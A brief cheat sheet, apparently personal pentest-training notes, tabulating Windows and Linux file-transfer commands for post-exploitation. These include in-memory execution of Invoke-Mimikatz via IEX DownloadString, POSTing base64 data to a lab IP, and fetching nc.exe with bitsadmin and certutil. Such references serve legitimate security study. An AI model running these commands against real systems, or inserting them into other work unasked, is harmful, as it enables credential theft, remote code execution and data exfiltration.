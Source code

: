 ```yaml
---
{"-publish":true,"permalink":"/windows/comandos/","PassFrontmatter":true}
---
```



# Windows

|**Command**|**Description**|
|---|---|
|`Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`|Download a file with PowerShell|
|`IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`|Execute a file in memory using PowerShell|
|`Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`|Upload a file with PowerShell|
|`bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`|Download a file using Bitsadmin|
|`certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`|Download a file using Certutil|
|`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`|Download a file using Wget|
|`curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`|Download a file using cURL|
|`php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`|Download a file using PHP|
|`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`|Upload a file using SCP|
|`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`|Download a file using SCP|
|`Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`|Invoke-WebRequest using a Chrome User Agent|